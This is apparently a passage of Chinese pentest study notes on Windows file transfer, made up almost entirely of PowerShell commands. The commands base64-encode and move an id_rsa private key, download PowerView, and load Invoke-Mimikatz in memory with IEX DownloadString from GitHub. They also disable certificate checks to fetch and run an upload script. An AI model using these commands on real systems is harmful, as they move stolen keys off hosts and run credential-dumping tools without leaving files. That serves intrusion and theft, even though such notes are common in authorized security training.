 <img src=".\pictures\image-20250513104915703.png" alt="image-20250513104915703" style="zoom:50%;" />

# 五、文件传输

## 5.1 windows文件传输

### 5.1.1 powershell

```
1.md5sum id_rsa
2.cat id_rsa | base64 -w 0;echo #-w 0的意思是只创建一行
echo -n 'base64内容' | base64 -d > id_rsa #解码
3.[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("xxx以上内容"))
4.Get-FileHash C:\Users\Public\id_rsa -Algorithm md5 #hash校验
############################文件下载
5.(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
6.(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
###########################无文件方法
7.IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
8.(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
可以使用参数 -UseBasicParseing 来绕过
9.[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```